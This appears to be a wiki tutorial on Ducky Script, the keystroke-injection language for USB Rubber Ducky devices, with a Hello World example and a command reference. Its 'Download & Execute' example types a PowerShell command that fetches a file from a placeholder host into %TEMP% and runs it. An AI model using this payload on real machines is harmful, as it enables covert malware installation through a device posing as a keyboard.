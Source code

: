 = Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI r triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI r
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER

* Note : For Windows 10, the GUI does not seem to work. Use CTRL ESC instead. Below is the complete example:

DELAY 2000
CTRL ESC
DELAY 2000
STRING notepad.exe
ENTER
DELAY 2000
STRING HELLO WORLD!!!
ENTER

= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI r - Windows Run box
* COMMAND - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4